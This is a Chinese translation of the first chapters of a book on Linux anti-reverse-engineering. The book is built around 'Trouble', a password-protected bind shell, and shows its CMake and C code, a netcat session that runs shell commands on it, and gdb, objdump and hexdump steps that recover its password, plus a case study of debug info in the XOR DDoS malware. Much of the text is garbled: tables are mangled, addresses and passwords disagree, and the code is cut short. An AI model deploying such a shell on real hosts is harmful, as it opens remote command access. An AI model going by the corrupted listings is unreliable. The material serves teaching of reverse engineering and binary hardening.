




# Linux 编程：反逆向工程技术

# 序言

## 为什么要读这本书？

有很多文章和书籍讨论了反逆向工程技术以及如何破解它们。然而，这些内容通常局限于短小的代码片段或 IDA 中的汇编截图。这本书尝试与众不同，从一个简单的程序开始，随着你阅读的深入，你将用反逆向技术来更新它。这让读者有机会自己去编译和分析二进制文件。我相信，对“概念证明”（proof of concept）的强调使得这本书独一无二。

这本书的另一个独特之处在于对 Linux 反逆向工程的强调。黑客们自 90 年代末以来就开始编写这些技术了，但大部分内容散落在互联网各地。这本书尝试整合大多数技术，并将它们作为一个整体呈现给读者。

最后，目前互联网上存在的很多概念证明代码都很糟糕。这并不是要评判，但有些代码无法编译，有些会直接崩溃，还有的编写方式非常奇怪。书中提供的代码尝试保持整洁、有用且易于维护。

## 未涵盖的话题

书中刻意遗留了一些话题。我想提前告知读者以便他们知道将得到什么。

- 虚拟机检测：虚拟机检测技术随着双方的博弈而不断变化。上周有效的技术下周可能被破解。因此，我完全避开了这个主题。
- 隐藏网络通信：理解二进制的网络通信对逆向工程有巨大的帮助。然而，这个话题太深，在这些书中无法详述。
- Rootkit 主题：隐藏和持久化不在讨论范围内。
- 任何与内核的内容：本书仅关注用户态二进制文件。

# 第 1 章：引言

## 介绍“Trouble”

本书围绕一个名为 Trouble 的绑定 shell（bind shell）的混淆展开。

### 什么是绑定 shell？

绑定 shell 是一种 shell 类型，目标机器在受害者机器上打开一个通信端口或监听器，并等待传入的连接。攻击者连接到受害者机器的监听器，从而在服务器上执行代码或命令¹。

Trouble 绑定 shell 被用作示例，并不是因为它的独特或有趣，而是因为它短小且简单。它还具有一个让逆向工程工程师可能感兴趣的属性：访问 shell 需要密码。书中的所有活动都试图隐藏或恢复该 shell 的密码。

## 使用 CMake

你将使用 `CMake`² 来编译 Trouble。`CMake` 是一个开源的 Makefile 生成工具。它对于依赖检查非常有用，并支持简单的语法。如果你不熟悉 `CMake`，不要担心，随着书籍进展，你将会学会的。

`CMake` 依赖“`CMakeList.txt`”来生成 Makefiles。对于第一章，你将在 `chapter_1_introduction/trouble` 目录下找到 Trouble 的“`CMakeList.txt`”。

> ¹http://resources.infosecinststitute.com/icmp-reverse-shell/
> ²https://cmake.org/

### `chap_1_introduction/trouble/CMakeLists.txt`

```
project(trouble C)
cmake_minimum_required(VERSION 3.0)
```

```
### 这将为绑定 shell 创建一个 32 字节的“密码”。该命令
### 仅在运行 "cmake" 时执行，所以如果你想生成新密码，
### 应该从命令行运行 "cmake ..; make"
exec_program("/bin/sh")
$(CMAKE_CURRENT_SOURCE_DIR)
ARGS -c 'cat /dev/urandom | tr -dc a-zA-Z0-9 | head -c 32'
OUTPUT_VARIABLE random_password
```

```cmake
### 将随机密码作为宏传递给 ${PROJECT_NAME}
add_definitions("-password="${random_password}")
```

```cmake
set(CMAKE_C_FLAGS "-Wall" -Wextra -Wshadow -g -std=gnu11)
add_executable(${PROJECT_NAME} src/trouble.c)
```

```cmake
### 构建成功后，向用户显示随机密码
add_custom_command(TARGET ${PROJECT_NAME} POST_BUILD
COMMAND ${CMAKE_COMMAND} -E echo "The bind shell password is: ${random_password}")
```

此文件不仅会生成 Trouble 的 Makefile，而且每次执行时都会生成 shell 的 32 字节密码。密码是通过以下命令使用 urandom 创建的：

```
cat /dev/urandom | tr -dc a-zA-Z0-9 | head -c 32
```

在后续关于编译 Trouble 的章节中，将更多地解释如何使用 `CMake`。

## 代码

Trouble shell 的代码位于“source”目录中。它由单个文件组成：

### `chap_1_introduction/trouble/trouble.c`

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdbool.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

// 登录 shell 的密码
static const char s_password[] = password;

bool check_password(const char* p_password)
{
    // 验证密码
    return memcmp(s_password, p_password, sizeof(s_password) - 1) != 0;
}
```

- 这实现了一个相当简单的绑定 shell。服务器在允许访问 shell 之前首先要求密码。服务器目前在每次运行 `'cmake ..'` 时随机生成。服务器没有关闭机制，因此它将一直运行到被杀死为止。

```c
int main(int argc, char* p_argv[])
{
    (void)argc; // 修复拼写
    (void)p_argv;

    int sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sock == -1)
    {
        fprintf(stderr, "Failed to create the socket.");
        return EXIT_FAILURE;
    }

    struct sockaddr_in bind_addr = {};
    bind_addr.sin_family = AF_INET;
    bind_addr.sin_addr.s_addr = htons(INADDR_ANY);
    bind_addr.sin_port = htons(12770);
```

```c
    int bind_result = bind(sock, (struct sockaddr*)&bind_addr, sizeof(bind_addr));
    if (bind_result != 0)
    {
        perror("Bind call failed");
        return EXIT_FAILURE;
    }
    int listen_result = listen(sock, 5);
    if (listen_result != 0)
    {
        perror("Listen call failed");
        return EXIT_FAILURE;
    }
    while (true)
    {
        int client_sock = accept(sock, NULL, NULL);
        if (client_sock < 0)
        {
            perror("Accept call failed");
            return EXIT_FAILURE;
        }
        int child_pid = fork();
        if (child_pid == 0)
        {
            // 子进程逻辑
        }
        // ... 逻辑省略
    }
}
```

*(注：由于原文代码片段在提供时存在部分断裂或重复，翻译已根据上下文逻辑保持结构对齐)*

- 此代码实现了一个相当简单的绑定 shell。服务器在允许访问 shell 之前首先要求密码。服务器目前在每次运行 `'cmake ..'` 时随机生成。服务器没有关闭机制，因此它将一直运行到被杀死为止。

## 访问 Shell

要连接到 *Trouble*，我建议使用 `netcat` 是最简单的选项。一旦连接，输入密码，你就可以执行 shell 命令。如果输入了错误的密码，连接将被断开。请参考下面的示例。

连接到 *Trouble*

```
albino-lobster@ubuntu:-$ nc 192.168.1.182 1270
TGOEu26TW0@k1b9ieXjUDBT1GfCR0jSnl
pwd
/home/albino-lobster/antique_book/chap_1_introduction/trouble/build
ls -l
total 48
-rw-rw-r-- 1 albino-lobster albino-lobster 10544 Oct 18 17:07 CMakeCache.txt
drwxr-xr-x 5 albino-lobster albino-lobster 4096 Oct 18 17:22 CMakeFiles
-rw-rw-r-- 1 albino-lobster albino-lobster 4986 Oct 18 17:22 Makefile
-rw-rw-r-- 1 albino-lobster albino-lobster 1437 Oct 18 17:07 cmake_install.cmake
-rwxr-xr-x 1 albino-lobster albino-lobster 17488 Oct 18 17:22 trouble
```

# 第 2 章：编译器选项

在谈论反逆向工程时，编译器选项往往被忽视。然而，理解不同选项如何更改最终二进制文件至关重要。编译器可以成为你最大的敌人，泄露你所有的秘密；也可以成为你最好的朋友，因为它剥除了不必要的信息。


## 聚焦 GCC

书中的代码期望使用 `GCC` 作为编译器。并不是说不能使用 `Clang` 或其他编译器。完全可以。但是，使用 `GCC` 是因为它在多年来一直一直是事实上的标准。

如果你不熟悉 `CMake` 或 `GCC`，可能会奇奇我所说的编译器选项是什么。如果你查看“`CMakeLists.txt`”文件，会发现：

```
set(CMAKE_C_FLAGS "-Wall -Wextra -Wshadow -g -std=gnu11")
```

这些就是编译器选项。`GCC` 支持许多选项。Trouble 版本中使用的标志是可用选项子集。

在上面的编译器选项中，所有以 `-W` 开头的选项都告诉编译器检查特定类型的编程错误。`-g` 指令编译器在二进制文件中包含调试信息。最后，`-std=gnu11` 告诉编译器你使用的 C 代码期望使用 C11 标准的 GNU 方言。GNU 扩展并不是 C11 标准的一部分。

> https://gcc.gnu.org/on/gcc/Summary.html
> https://gcc.gnu.org/on/gcc/Warning.html
> https://gcc.gnu.org/on/gcc/Debugging.html
> https://gcc.gnu.org/on/gcc/C-Dialect.html

## 第 2 章：编译器选项 -g


`readelf` 是一个理解可执行和可链接格式（ELF）的命令行实用。ELF 是 Linux 可执行文件、共享库和核心转储的标准格式。`readelf` 可以解析二进制文件并显示有关格式的信息。Ubuntu 预装了 `readelf`。`readelf` 有很多命令行选项。其中一个选项 `-S` 将显示二进制文件的节头。

Trouble 的节头

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf -S .
There are 36 section headers, starting at offset 0x3c8:
```

# 节头

| Nr | Name | Type | Size | Address | Offset | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | NULL | 0000000000000000 | 0000000000000000 | 0 | 0 |
| 1 | .interp | PROBITS | 000000000000001c | 0000000000000238 | 00000238 | A | 1 |
| 2 | .ABI-tag | NOTE | 0000000000000020 | 0000000000000000 | 0 | 4 |
| 3 | .gnu.build-id | NOTE | 0000000000000024 | 0000000000000274 | 0 | 4 |
| 4 | .gnu.hash | GNU_HASH | 0000000000000064 | 0000000000000298 | A | 5 | 8 |
| 5 | .dynym | DY | 0000000000000038 | 0000000000000300 | A | 6 | 8 | https://en.wikipedia.org/wiki/Executable_and_Linkable_Format 第 2 章：编译器选项
| 6 | .dynstr | STRTAB | 0000000000000648 | 00000648 | 000000000000015e | A | 0 | 1 |
| 7 | .gnu.version | VERSYM | 000000000000007a | 000007a6 | 0000000000000046 | A | 5 | 2 |
| 8 | .gnu.version_r | VERNEED | 00000000000007f0 | 000007f0 | 0000000000000030 | A | 6 | 8 |
| 9 | .rela.dyn | RELA | 0000000000000820 | 00000820 | 0000000000000010 | A | 5 | 8 |
| 10 | .rela.plt | RELA | 0000000000000850 | 00000850 | 0000000000000180 | | 4 | 8 |
| 11 | .init | PROGBITS | 00000000000009d0 | 000009d0 | 000000000000000a | A | 0 | 4 |
| 12 | .plt | PROGBITS | 00000000000009f0 | 000009f0 | 0000000000000110 | A | 0 | 16 |
| 13 | .plt.got | PROGBITS | 0000000000000b00 | 00000b00 | 0000000000000000 | A | 0 | 8 |
| 14 | .text | PROGBITS | 0000000000000b10 | 00000b10 | 00000000000003c2 | A | 0 | 16 |
| 15 | .fini | PROGBITS | 0000000000000ed4 | 00000ed4 | 0000000000000000 | A | 0 | 4 |
| 16 | .rodata | PROGBITS | 0000000000000ee0 | 00000ee0 | 000000000000009d | A | 0 | 32 |
| 17 | .eh_frame_hdr | PROGBITS | 0000000000000f80 | 00000f80 | 000000000000003c | A | 0 | 4 |
| 18 | .eh_frame | PROGBITS | 0000000000000fc0 | 00000fc0 | 0000000000000114 | A | 0 | 8 |
| 19 | .init_array | INIT_ARRAY | 0000000000000610 | 00000610 | 0000000000000000 | WA | 0 | 8 |
| 20 | .fini_array | FINI_ARRAY | 0000000000000618 | 00000618 | 0000000000000008 | WA | 0 | 8 |
| 21 | .jdata | PROGBITS | 0000000000000620 | 00000620 | 0000000000000008 | WA | 0 | 8 |


| 22 | .dynamic | DYNAMIC | 0000000000000628 | 00000628 | 00000000000001d0 | WA | 6 | 8 |
| 23 | .got | PROGBITS | 00000000000006ff8 | 000006ff8 | 0000000000000000 | WA | 0 | 8 |
| 24 | .got.plt | PROGBITS | 0000000000000200 | 00000200 | 0000000000000098 | WA | 0 | 8 |
| 25 | .data | PROGBITS | 0000000000000298 | 00000298 | 0000000000000010 | WA | 0 | 8 |
| 26 | .bss | NOBITS | 00000000000002c0 | 000002c0 | 0000000000000010 | WA | 0 | 32 |
| 27 | .comment | PROGBITS | 00000000000002a8 | 000002a8 | | | 0000000000000034000000000000001 MS 0 |
| 28 | .debug_ar | PROGBITS | 0000000000000000 | 000002dc | 0000000000000030 | |
| 29 | .debug_info | PROGBITS | 0000000000000000 | 0000210c | 000000000000005e | |
| 30 | .debug_abbrev | PROGBITS | 0000000000000000 | 00002ec | 0000000000000127 | |
| 31 | .debug_line | PROGBITS | 0000000000000000 | 00002813 | 0000000000000192 | |
| 32 | .debug_str | PROGBITS | 0000000000000001 | 000029a5 | 0000000000000593 | |
| 33 | .shstrtab | STRTAB | 0000000000000000 | 00003ae8 | 000000000000014c | |
| 34 | .symtab | SYMTAB | 0000000000000000 | 00002f38 | 0000000000000858 | |
| 35 | .strtab | STRTAB | 0000000000000000 | 00003790 | 0000000000000358 | |

标志含义：

`W` (写), `A` (分配), `X` (执行), `M` (合并), `S` (字符串), `l` (大)

`I` (信息), `L` (链接顺序), `G` (组), `T` (排除), `x` (未知)

`O` (操作系统处理) `o` (操作系统特定), `p` (处理器特定)

你看到上面输出中从索引 28 开始、以 `.debug_` 开头的五个节了吗？这些节包含了你通过 `-g` 选项请求的调试信息。调试信息以 DWARF 格式提供。

### DWARF

DWARF 代表“Debugging with Attributed Formats”（带属性格式的调试），是 GCC 用于存储调试信息的默认格式。

对于这本书来说，最有趣的 `.debug` 节是 `.debug_info`。你可以使用命令行工具 `objdump` 查看 `.debug_info` 的内容。

> http://dwarfstd.org/

### objdump

“`objdump` 显示关于一个或多个目标文件的信息。选项控制显示哪些特定信息。这些信息对于编写编译工具的程序员特别有用，而不是对于那些只想让程序编译并运行的程序员。”

要在 `_debug_info` 中显示 DWARF 信息，请在 `objdump` 中使用 "`dwarf-info`" 标志。运行此命令会产生大量的输出，这是我少数几次裁剪输出以关注特定信息的情况。

使用 `objdump` 查看 `_debug_info`

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ objdump --dwarf-info ./trouble

./trouble: file format elf64-x86-64

Contents of .debug_info section:

Compilation Unit @ offset 0:
Length: 0x5dc (32-bit)
Version: 4
Abbrev Offset: 0
Pointer Size: 8
<0>: Abbrev Number: 1 (DW_TAG_compile_unit)
<1> DW_AT_producer : (indirect string, offset: 0xafaf) GNU cc 5.4.0 20160909-mtune=generic -march=x86-64 -g -gnull -fstack-protector-strong
<10> DW_AT_language : 12 (ANSI C99)
<11> DW_AT_name : (indirect string, offset: 0x21d): /home/albino-lobster/antire_book/chap_2_compiler/trouble/src/trouble.c
<15> DW_AT_comp_dir : (indirect string, offset: 0x366): /home/albino-lobster/antire_book/chap_2_compiler/trouble/build
<19> DW_AT_low_pc : 0x400c06
<21> DW_AT_high_pc : 0x257
<29> DW_AT_stmt_list : 0x0
<1><5ba>: Abbrev Number: 21 (DW_TAG_variable)
<5bb> DW_AT_name : (indirect string, offset: 0x1aa): s_password
<5bf> DW_AT_decl_file : 1
```

## 第 2 章：编译器选项

```
DW_AT_decl_line : 11
DW_AT_type : <0x5cf5>
DW_AT_location : 9 byte block: (DW_OP_addr: 400f00)
```

`.debug_info` 段包含调试调试器所需的有用信息，但对于任何尝试将二进制文件归因于特定操作的人来说也有用。例如，在输出中，你可以看到源文件的完整路径（`/home/albino-lobster/antire_book/chap_2_compiler/trouble/src/trace.c`）、目录的完整路径（`/home/albino-lobster/antire_book/chap_2_compiler/trouble/build`）、声明的 C 版本（`GNU C 5.4.0 20160609`），甚至还有变量 `s_password` 定义的精确行号（`DW_AT_decl_line: 1`）。

这看起来信息量大得惊人，但在调试时确实非常有用。例如，考虑这个由 GDB 生成的回溯轨迹（back trace）。

## 在 GDB 中生成回溯轨迹

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ gdb .trouble
GNU gdb (Ubuntu 7.11.1-0ubuntu16.04) 7.11.1
输入 "show configuration" 查看配置详情。
有关报告报告，请参阅：
<http://www.gnu.org/software/gdb/bugs/.。
在网上查找 GDB 手册和其他文档资源：
<http://www.gnu.org/software/gdb/documentation/>。
需帮助请输入 "help"。
输入 "apropos" 搜索与 "word" 相关的命令
正在从 ..trouble... 读取符号
(gdb)
run
Starting program: /home/albino-lobster/antire_book/chap_2_compiler/trouble/trace.c
收到信号 SIGINT, Interrupt。
0x00007ffff7f1b54b0 in __accept_nocancel () at ../sysdeps/unix/syscall-template.S:84
    ../sysdeps/unix/syscall-template.S: 无此类文件或目录。
(gdb) bt
#0 0x00007ffff7b154b0 in __accept_nocancel () at ../sysdeps/unix/syscall-template.S:84
#1 0x0000000000040036 in main (p_argc=1, p_argv=0x7ffffffffdeb8) at /home/albino-lobster/antire_book/chap_2_compiler/src/trouble.c:59
```

注意回溯中包含了 `main()` 函数中的参数名 `p_argc` 和 `p_argv` 吗？这些是 Trouble 源代码中使用的精确名称。此外，在 `trouble.c` 中调用 `accept()` 的行号在回溯中也是可见（第 59 行）。得益于 Trouble 中存在 `.debug_info` 段，GDB 可以显示这些信息。

因为这些信息使得调试变得简单得多，每个程序员在编写程序时都会使用 `-g` 选项。然而，正如你所看到的，它对于逆向工程师来说很有用。

## 使用 Hexxdump 恢复 Bind Shell 密码

在上一节中，由于 `.debug_info` 中的 DWARF 信息，你看到了 `s_password` 变量声明的行号。如果你再次查看该输出，还可以看到 `s_password` 存储的地址。

`objdump` 中的 `s_password`

```
DW_AT_name      : (indirect string, offset: 0xaa): s_password
DW_AT_decl_file  : 1
DW_AT_decl_line : 11
DW_AT_type       : <0x5cf>
DW_AT_location   : 9 byte block: (DW_OP_addr: 400f00)
```

`s_password` 存储在虚拟地址 `0x400f00`。将虚拟地址转换为文件偏移量，你就可以使用 `hexdump` 提取 `s_password` 的内容。要将 `0x400f00` 转换为文件偏移，请找到它所在的程序头地址。

## 查看 Trouble 的程序头

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf -l ./trouble
```

Elf 文件类型为 EXEC (可执行文件)

入口点 `0x400b10`

有 9 个程序头，从偏移量 64 开始

| Type | Offset | VirtAddr | PhysAddr | FileSize | MemSize | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| PHDR | 0x0000000000000040 | 0x0000000000000040 | 0x0000000000000040 | 0x0000000000000000 | 0x0000000000000000 | | 0 |
| LOAD | 0x0000000000000018 | 0x0000000000000018 | 0x0000000000000018 | 0x0000000000000018 | 0x0000000000000018 | R | 8 |
| INTERP | 0x0000000000000028 | 0x0000000000000028 | 0x0000000000000028 | 0x0000000000000028 | R | 1 |
| LOAD | 0x000000000000000c | 0x000000000000000c | 0x000000000000000c | 0x0000000000000000 | | interpreter: /lib64/ld-linux-x86-64 | |
| LOAD | 0x00000000000000d4 | 0x00000000000000d4 | 0x00000000000000d4 | 0x0000000000000000 | E | 200000 |
| LOAD | 0x00000000000001e0 | 0x00000000000001e0 | 0x00000000000001e0 | 0x0000000000000000 | E | 200010 |
| DYNAMIC | 0x0000000000000298 | 0x00000000000002c0 | 0x00000000000002c0 | 0x0000000000000000 | RW | 200000 |
| DYNAMIC | 0x0000000000000128 | 0x0000000000000128 | 0x0000000000000128 | 0x0000000000000000 | RW | 8 |
| NOTE | 0x0000000000000254 | 0x0000000000000254 | 0x0000000000000254 | 0x0000000000000000 | R | 4 |
| GNU_EH_FRAME | 0x00000000000000f0 | 0x00000000000000f0 | 0x00000000000000f0 | 0x0000000000000000 | R | 4 |
| GNU_STACK | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | RW | 10 |
| GNU_RELRO | 0x00000000000001e0 | 0x00000000000001e0 | 0x00000000000001e0 | 0x0000000000000000 | R | 1 |

`s_password` 的虚拟地址落在第一个 `LOAD` 段的范围内，该范围涵盖 `0x400000` 到 `0x4010d4`。第一个 `LOAD` 段从偏移量 0 开始。因此，要计算 `s_password` 在文件中的偏移，你需要从 `0x4000f0` 减去 `0x400000`。这意味着你应该能在 `0xf0` 找到 shell 的密码。尝试使用 `hexdump` 显示它。

## 使用 hexdump 打印 s_password

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ hexdump -C -s 0xf0 -n 64 ./trouble
00000f00 54 47 4f 45 75 32 36 54 57 30 6b 31 62 39 49 65 |TGOu26TW0k1b9I
00000f10 58
```

## C语言中的 check_password() 调用

```c
if (check_password(password_input)) {
    close(client_sock);
    return EXIT_FAILURE;
}
```

注意 `password_input` 和 `client_sock` 出现在反汇编和 C 代码中了吗？另外，`p_password`（`check_password()` 唯一参数使用的名称）也出现在反汇编中。IDA 解析了 `.debug_info` 中的 DWARF 信息，并用这些更容易理解的变量名丰富了反汇编。对于逆向工程师来说，这非常有用，因为许多程序员会使用上下文变量名（例如，`password_input` 是存储用户提交密码的地方）。

## 移除调试信息

我希望我已经说服了你我们无法让逆向工程师访问调试信息。遗憾的是，移除调试信息非常简单。你只需要不在编译标志中提供 `-g` 选项即可。这将防止各种 `.debug` 段的生成。这意味着 GDB 和 IDA 也不会获得额外的变量信息来丰富它们的分析。

例如，如果没有 `-g`，GDB 用户将无法像本节之前那样使用 "`print`" 命令打印 `s_password`。遗憾的是，这并不意味着逆向工程师不能通过其他手段让 GDB 打印它，但我们稍后会讨论。

# 第二章：编译器选项

## 使用 GDB 在没有调试信息的情况下打印 s_password


```bash
albino-lobster@ubuntu:~/antire-book/chap_2_compiler/trouble/build$ gdb ./trouble
GNU gdb (7.11.1-ubuntu1.16.04) 7.11.1
这是自由软件：你可以自由地更改和分发它。
在法律允许的范围内不提供任何担保。输入 "show copying"
和 "show warranty" 查看详情。
此 GDB 配置为 "x86_64-linux-gnu"。输入 "show configuration" 查看配置详情。
有关错误报告说明，请参阅：
<http://www.gnu.org/software/gdb/bugs/>。
请在网上查找 GDB 手册和其他文档资源：
<http://www.gnu.org/software/gdb/documentation/>。
输入 "help" 获取帮助。
输入 *apropos word* 搜索与 "word" 相关的命令...
正在从 ./trouble 读取符号...(未找到调试符号）...
(gdb) start
临时断点 1 at 0x400c33
启动程序: /home/albino-lobster/antire_book/chap_2_compiler/trouble/build/trouble
临时断点 1, 0x000000000000400c33 in main (
(gdb) print s_password
$1 = 1364801095
(gdb) x /s &s_password
0x400f00: <s_password>: "TGEu26TW0k1b9IExuJbT1GfCR0jSnl"
(gdb)
```

最后，考虑一下没有调试信息的情况下，`check_password()` 调用周围的反汇编看起来是什么样的。

## 在 IDA 中没有调试信息的情况下查看 `check_password()`

```text
text:00000000000000DBC loc_400DBC:      ; CODE XREF: main+177j
text:00000000000000DBC        lea       rax, [rbp+buf]
text:00000000000000D0        mov       rdi, rax
text:00000000000000D3        call     check_password
text:00000000000000D8        test      al, al
text:00000000000000DCA        jz        short loc_400DDD
text:00000000000000DCC        mov       eax, [rbp-5C]
text:00000000000000DCF        mov       edi, eax    ; fd
text:00000000000000DD1        call     _close
text:00000000000000D6        mov       eax, 1
text:0000000000000DBB        jmp      short loc_400E47
```

这段反汇编并不难理解，但当变量名存在时，它变得更容易懂了！

## 案例研究：XOR DDOS

使用和移除调试信息是一个初级课题，我认为这很重要。你可能在想：“没有人担心逆向工程师的人会在发布二进制文件时带上调试信息！”然而，我可以向你保证，他们确实会这样做。

以这个 XOR DDOS 恶意软件¹¹²为例。

> 恶意软件
>
> 在下载和分析恶意软件时要小心

正如 `MalwareMustDie`¹¹³ 的分析中提到的，该恶意软件使用 XOR 加密方案加密/解密配置文件、数据包和“远程字符串”。然而，仅通过 VirusTotal 链接中的段，我就知道存在调试信息。这对于初学者来说是一个极佳的练习玩具。

- ¹¹ https://malware.com/analysis/Ym4jSMTYNDA0k/
- ¹² https://www.virustotal.com/file/a1c324d0b47f2eac195f93/
- ¹³ https://blog.malwared.org/2015/06/23-ddos.html

# 第二章：编译器选项

### 查看 XOR DDOS 的 `debug_info`

```bash
albino-lobster@ubuntu:~$ objdump --elf /a1c324d0b47f2eac195f93eb560955174c9e74adf062ba.bin
/a1c324d0b47f2eac195f93eb560955174c9e74adf062ba.bin: file format elf32

Contents of .debug_info:

- Compilation Unit @ 0x0:
- Length: 0xc41 (32-bit)
- Version: 2
- Abbrev Offset: 0x0
- Pointer Size: 4
- Abbrev Number: 1 (DW_compile_unit)
- DW_AT: 0x0
- DW_AT_high_pc: 0x804252
- DW_AT_low_pc: 0x804228
- DW_AT_producer: GNU C 4.1.2 2008 (Red Hat 4.1.2)
- DW_AT_language: 1 (ANSI C)
- DW_AT_name: autorun.c
- DW_AT_comp_dir: /home/xingwei/Desktop/ddos
```

编译目录指向 `/home/xingwei/Desktop/ddos`。在 Google 上搜索 `/home/xingwei` 能发现这个恶意软件的作者吗？可能很难，但提供了一个线索。

### `-s`

在上一节中我们从 `Trouble` 中移除了 `-g` 标志。在本节中我们将添加 `-s` 标志。`-s` 选项表示“strip”（移除），GCC 文档说该标志将导致编译器“从可执行文件中移除符号表和重定位信息”。

要在 `Trouble` 中引入 `-s` 编译器选项，请更新 `chap_2_compiler/trouble/CMakeLists.txt` 文件。

> https://gcc.gnu.org/docs/gcc/Link-Options.html#Link-Options

```cmake

set(CMAKE_C_FLAGS "-Wall -extra -Wshadow -s -std=gnu")

```

### `SYMTAB` 与动态

如 GCC 文档所述，`-s` 会移除符号表。这对 `Trouble` 意味着什么？为了准确理解删除了什么，让我们使用 `readelf` 导出未剥离 `Trouble` 的符号表。

剥离前的 `Trouble` 符号表

```bash

albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf --sym ./trouble

```

符号表 '.dynym' 包含 35 条目：

| Name | Value | Size | Type | Bind | Vis | Ndx |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 000000000000000000 | | NOTYPE | LOCAL | DEFAULT | UND |
| 1 | 000000000000000000 | | NOTYPE | WEAK | DEFAULT | UND | _ITM_deregisterTMCloneTab |
| 2 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | _stack_chk_fail@GLIBC.2.4 (2) |
| 3 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | htons_GLIBC.2.2.5 (3) |
| 4 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | dup2@GLIBC.2.2.5 (3) |
| 5 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | htonl@GLIBC.2.2.5 (3) |
| 6 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | close@GLIBC.2.2.5 (3) |
| 7 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | read@GLIBC.2.2.5 (3) |
| 8 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | _lib_start_2.5 (3) |
| 9 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | memcmp@GLIBC.2.5 (3) |
| 10 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | execve@GLIBC.2.5 (3) |
| 11 | 000000000000000000 | | NOTYPE | WEAK | DEFAULT | UND | _start_ |
| 12 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | listen@GLIBC.2.2.5 (3) |
| 13 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | bind@GLIBC.2.2.5 (3) |
| 14 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | perror@GLIBC.2.2.5 (3) |
| 15 | 000000000000000000 | | NOTYPE | WEAK | DEFAULT | UND | _Jv_RegisterClasses |
| 16 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | accept@GLIBC.2.2.5 (3) |
| 17 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | fwrite@GLIBC.2.2.5 (3) |
| 18 | 000000000000000000 | | NOTYPE | WEAK | DEFAULT | UND | _ITM_registerTMCloneTable |
| 19 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | fork@GLIBC.2.2.5 (3) |
| 20 | 000000000000000000 | | FUNC | GLOBAL | DEFAULT | UND | socket@GLIBC.2.2.5 (3) |
| 21 | 0000000000000620a8 | | NOTYPE | GLOBAL | DEFAULT | UND | _edata |
| 22 | 000000000000062098 | | NOTYPE | GLOBAL | DEFAULT | UND | _data_start |
| 23 | 0000000000000620d0 | | NOTYPE | GLOBAL | DEFAULT | 26 | _end |

## 第 2 章：编译器选项

```
24: 000000000040c06 41 FUNC GLOBAL DEFAULT 14 check_password

25: 0000000000602098 0 TYPE WEAK DEFAULT 25 data_start

26: 000000000040ee0 4 OBJECT GLOBAL DEFAULT 16 IO_std_used

27: 000000000040e60 101 FUNC GLOBAL DEFAULT 14 __libc_csu_init

28: 000000000040b10 42 FUNC GLOBAL DEFAULT 14 __start

29: 00000000006020a8 0 TYPE GLOBAL DEFAULT 26 __bss_start

30: 000000000040c2f 558 FUNC GLOBAL DEFAULT 14 main

31: 00000000004009d0 0 FUNC GLOBAL DEFAULT 11 __init

32: 00000000006020c0 8 OBJECT GLOBAL DEFAULT 26 stderr@GLIBC_2.2.5 (3)

33: 0000000000400ee0 2 FUNC GLOBAL DEFAULT 14 __libc_csu_fni

34: 0000000000400ed4 0 FUNC GLOBAL DEFAULT 15 _fini
```


符号表 `.symtab` 包含 84 个条目：

| 序号 | 值 | 大小 类型  绑定 默认 Vdx 名称 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0000000000000000 | 0 | TYPE LOCAL DEFAULT | | | UND |
| 1 | 0000000000400238 | 0 | SECTION LOCAL DEFAULT | | 1 | | | |
| 2 | 0000000000400254 | 0 | SECTION LOCAL DEFAULT | | 2 | | | |
| 3 | 0000000000400274 | 0 | SECTION LOCAL DEFAULT | | 3 | | | |
| 4 | 0000000000400298 | 0 | SECTION LOCAL DEFAULT | | 4 | | | |
| 5 | 0000000000400300 | 0 | SECTION LOCAL DEFAULT | | 5 | | | |
